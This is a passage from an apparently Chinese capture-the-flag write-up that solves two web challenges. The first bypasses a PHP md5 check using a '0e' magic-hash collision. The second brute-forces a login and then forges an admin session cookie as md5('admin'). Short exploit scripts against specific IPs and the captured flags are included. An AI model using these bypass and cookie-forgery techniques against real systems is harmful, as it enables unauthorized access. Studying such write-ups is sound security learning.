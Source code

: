 提交一个flag参数， 参数里面如果包含`200`这个字符串就退出，如果字符串的md5值和`s1091221200a`一样就返回flag, 最开始我也没思路，一直没办法绕过。

问了出题人，出题人直接复制了这一个字符串，右键google...醉醉的，我咋没想到直接google这个数字呢

然后看到了这个一个(介绍)[http://www.rabbit8.cn/569.html] php的哈希缺陷的，(这个也可以看)(https://www.ohlinge.cn/php/0e_md5.html) ，然后页面里面随便选了一个值get提交就ok。 写了个exp如下
```python
import requests

url = 'http://119.29.16.200:5003'
str1 = 's1091221200a'
str2 = 'QNKCDZO'

web = requests.get(url+'/1.txt')
print web.encoding
web.encoding = 'utf-8'
print web.text
payload = {
        'flag': str2,
        }

r = requests.post(url, params=payload)
print r.encoding
r.encoding = 'utf-8'
print r.text
print r.headers

# 参考:http://www.rabbit8.cn/569.html
# flag{IsDc_0e_Th3e01}
```

## 0x03 admin
打开只有一个登录框，没有验证码提示账号密码都是test, 我猜是出题人怕我们写脚本爆破把服务器搞崩了，这个服务器在学校内网233333。

登录上去提示我们没有管理员权限，看了cookie以及网络请求都没东西，然后我试了试登录框用admin登录，开20个线程用burp爆破，10000的弱口令都没有..gg, 然后爆破的时候服务器500, 关了burp就没事，后来发现cookie是md5(test)的值， 然后把cookie改成md5(admin)就行了，poc如下
```python 
import requests

url = 'http://223.129.64.72:81/login'
url = 'http://223.129.64.72:81/'

payload = {
        'user':'test',
        'mm':'test'
        }
cookie = {
        'cookies': '21232f297a57a5a743894a0e4a801fc3'
        }

r = requests.Session()

# u = r.post(url,u payload, cookies=cookie)
u = requests.get(url, cookies=cookie)
print u.text

```
请求的页面不能加上login..., 也不需要再次登录，直接带cookie去get请求就出flag了..
